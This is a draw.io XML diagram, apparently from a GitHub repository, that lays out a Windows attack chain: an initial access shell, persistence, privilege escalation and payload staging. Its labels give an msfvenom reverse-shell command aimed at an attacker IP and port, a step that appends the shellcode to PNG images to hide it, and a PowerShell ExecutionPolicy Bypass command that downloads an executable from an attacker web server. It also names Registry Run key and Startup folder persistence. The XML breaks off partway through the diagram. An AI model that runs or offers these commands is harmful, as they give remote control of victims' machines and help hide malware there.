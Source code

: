 <mxfile version="20.7.4" type="github" pages="2">
  <diagram id="C5RBs43oDa-KdzZeNtuy" name="Overall">
    <mxGraphModel dx="3054" dy="614" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
      <root>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-0" />
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-1" parent="WIyWlLk6GJQsqaUBKTNV-0" />
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-2" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-3" target="G-sO2mh2Iyi2BEA4O4LV-14" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-3" value="Initial Access Shell" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="160" y="30" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-4" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-6" target="WIyWlLk6GJQsqaUBKTNV-10" edge="1">
          <mxGeometry y="20" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-6" target="G-sO2mh2Iyi2BEA4O4LV-17" edge="1">
          <mxGeometry y="10" relative="1" as="geometry">
            <mxPoint as="offset" />
            <mxPoint x="370" y="120" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-6" value="Establish Medium IL Persistance" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="135" y="170" width="170" height="100" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-8" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-10" target="WIyWlLk6GJQsqaUBKTNV-11" edge="1">
          <mxGeometry x="0.333" y="20" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-10" value="Escalate Privileges" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="140" y="340" width="160" height="110" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-11" value="" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="170" y="1110" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-15" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-14" target="WIyWlLk6GJQsqaUBKTNV-6" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-14" value="Create Medium IL Tools Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="160" y="90" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-17" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-17" target="P6aCfQ930mBBJoiv-hOj-9">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-17" value="Update Persistance Payload Code" style="swimlane;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="30" width="1130" height="140" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-19" value="Pers_Medium.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="20" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-21" value="Medium IL Tools Directory&#xa;(9001.exe / 9002.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="G-sO2mh2Iyi2BEA4O4LV-19" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-23" value="9001.cpp&#xa;9002.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="200" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-25" value="Medium IL Tools Directory&#xa;(9001.png / 9002.png)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="G-sO2mh2Iyi2BEA4O4LV-23" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-30" value="9001.raw&#xa;9002.raw" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="400" y="40" width="140" height="90" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-31" value="Attacker IP" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="G-sO2mh2Iyi2BEA4O4LV-30" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-32" value="Port (9001 / 9002)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="G-sO2mh2Iyi2BEA4O4LV-30" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-37" value="msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp -n 1800 --pad-nops LHOST=IP LPORT=Port -f raw EXITFUNC=thread &amp;gt; port#.raw" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="550" y="60" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-57" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-49" target="P6aCfQ930mBBJoiv-hOj-24" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-49" value="Stage Persistance Payloads" style="swimlane;shadow=0;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="460" width="690" height="110" as="geometry">
            <mxRectangle x="480" y="340" width="70" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-39" value="Pers_Medium.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="40" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-51" value="9001.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="180" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-52" value="9002.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="310" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-53" value="9001.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="440" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-54" value="9002.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="570" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-16" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-9" target="G-sO2mh2Iyi2BEA4O4LV-49">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-9" value="Compile Persistance Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#FF6666;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="470" y="230" width="880" height="180" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-12" value="Compile EXE&#39;s" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#FF6666;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-9">
          <mxGeometry x="70" y="40" width="140" height="120" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-13" value="Pers_Medium.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-12">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-14" value="9001.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-12">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-15" value="9002.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-12">
          <mxGeometry y="90" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-35" value="Generate MSFVenmon Payload and Embed Into png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-9" vertex="1">
          <mxGeometry x="255" y="40" width="160" height="50" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-38" value="cp original.png combined.png; cat port#.raw &amp;gt;&amp;gt; Port#.png" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-9" vertex="1">
          <mxGeometry x="440" y="40" width="290" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-24" value="Execute Persistence Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#00CC00;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="470" y="618" width="870" height="252" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-5" value="Download staged binaries and png&#39;s to Medium IL Tools directory." style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="35" y="45" width="120" height="80" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-7" value="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c &quot;IEX(New-Object Net.WebClient).downloadFile(&#39;http://[IP]:[web server port]/Pers_Medium.exe&#39;,&#39;C:\Path\file.ext&#39;)&quot;" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="170" y="45" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P7n5YuG6-lRFGP6FSJ7v-0" value="Execute Pers_Medium.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-24">
          <mxGeometry x="190" y="135" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P7n5YuG6-lRFGP6FSJ7v-1" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.438;exitY=0.997;exitDx=0;exitDy=0;exitPerimeter=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="P6aCfQ930mBBJoiv-hOj-24" source="G-sO2mh2Iyi2BEA4O4LV-5" target="P7n5YuG6-lRFGP6FSJ7v-0">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-0" value="Execute 9001.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FFFFFF;strokeColor=#00CC00;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-24">
          <mxGeometry x="470" y="100" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-3" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;dashed=1;" edge="1" parent="P6aCfQ930mBBJoiv-hOj-24" source="P7n5YuG6-lRFGP6FSJ7v-0" target="P6aCfQ930mBBJoiv-hOj-0">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="415.0" y="155.0" as="sourcePoint" />
            <mxPoint x="505" y="225" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-1" value="Execute 9002.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FFFFFF;strokeColor=#00CC00;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-24">
          <mxGeometry x="470" y="170" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-2" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="P6aCfQ930mBBJoiv-hOj-24" source="P7n5YuG6-lRFGP6FSJ7v-0" target="P6aCfQ930mBBJoiv-hOj-1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-5" value="Read Payload From 9001.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FFFFFF;strokeColor=#00CC00;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-24">
          <mxGeometry x="660" y="100" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-7" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="P6aCfQ930mBBJoiv-hOj-24" source="P6aCfQ930mBBJoiv-hOj-0" target="P6aCfQ930mBBJoiv-hOj-5">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-6" value="Read Payload From 9002.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FFFFFF;strokeColor=#00CC00;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-24">
          <mxGeometry x="660" y="170" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-8" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="P6aCfQ930mBBJoiv-hOj-24" source="P6aCfQ930mBBJoiv-hOj-1" target="P6aCfQ930mBBJoiv-hOj-6">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-26" value="Registry&lt;br&gt;Run Key" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-24">
          <mxGeometry x="750" y="125" width="80" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-27" value="Startup&lt;br&gt;Folder" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-24">
          <mxGeometry x="750" y="200" width="80" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-30" value="Update EOP Payload Code" style="swimlane;fillColor=#FF6666;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="-1230" y="40" width="1300" height="170" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-33" value="DEVOBJ.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-30">
          <mxGeometry x="200" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-34" value="Medium IL Tools Directory&#xa;(Reverse_9101.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-33">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-35" value="9101.raw" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-30">
          <mxGeometry x="550" y="40" width="140" height="90" as="geometry" />
        </mxCell>
